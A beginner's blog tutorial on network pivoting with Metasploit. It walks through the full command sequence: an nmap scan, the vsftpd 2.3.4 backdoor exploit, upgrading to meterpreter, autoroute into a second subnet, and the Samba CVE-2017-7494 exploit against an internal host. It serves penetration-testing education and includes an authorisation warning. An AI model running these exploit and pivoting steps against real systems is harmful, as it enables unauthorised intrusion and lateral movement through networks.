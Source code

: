 # basic-pivoting-with-metasploit

Basic Pivoting By Using Metasploit
Posted by Henry HON on December 30, 2019

This is a very basic demo or tutorial (for beginner) on how to use Metasploit to conduct Pivoting.

By referring to the definition of Pivoting from Offensive Security:

Pivoting is the unique technique of using an instance (also referred to as a ‘plant’ or ‘foothold’) to be able to move around inside a network. Basically using the first compromise to allow and even aid in the compromise of other otherwise inaccessible systems.

In simple words, that is to use one exploited machine as a gateway to access other machines in the same network or other networks that you don’t have direct network route access.

Let’s take below scenario as an example, we now have the network access to Server A, but not Server B. If we could exploit Server A successfully, then we could access Server B by using Server A as our gateway, so that we could further exploit Server B.
Simple Network Diagram

Before we start any security testing / penetration testing / red teaming / exploiting any vulnerabilities (whatever you name it), please make sure you have ALL necessary authorisation from corresponding parties or you should do it within your own self-contained testing environment.

In this demo, the focus is on Pivoting By Using Metasploit, you may find the vulnerabilities on both Server A and Server B are relatively outdated.

Let’s start with a quick NMAP scan to our first target – Server A:

nmap -sV 192.47.155.3

It is quite obvious the vsftpd could be exploitable. Let’s search for available exploit for vsftp:

search vsftp
exploit/unix/ftp/vsftpd_234_backdoor
set rhosts 192.47.155.3
run

Woo! Server A exploited successfully and root obtained directly! We found that Server A has another interface eth1: 192.104.39.2 as well.

Let’s put this obtained session into background (Ctrl + z) first.

To conduct pivoting, we need to upgrade the shell to meterpreter:

use post/multi/manage/shell_to_meterpreter
set session 2
run

Now we have session 5 (meterpreter to Server A’s eth0 – 192,47.155.3).

This is the key part of this demo – pivoting.

Jump to session 5 and add the route!

sessions 5
run post/multi/manage/autoroute SUBNET=192.104.39.0 ACTION=ADD

Now we have to put our current session into background (Ctrl + z).

Now we could conduct tcp port scan to Server B (192.104.39.3) within Metasploit, as pivoting is in place.

use auxiliary/scanner/portscan/tcp
set rhosts 192.104.39.3
set threads 10
run

Further conducting SMB scan.

use auxiliary/scanner/smb/smb_version
set rhosts 192.104.39.3
run

As Samba 4.3.8-Ubuntu has the vulnerability CVE-2017-7494, let’s try it.

search CVE-2017-7494
use exploit/linux/samba/is_known_pipename
set rhosts 192.104.39.3
run

Yeah! Server B exploited!

Hope this simple demo / tutorial could help beginner to learn about Pivoting. Thanks for reading!

Cheers

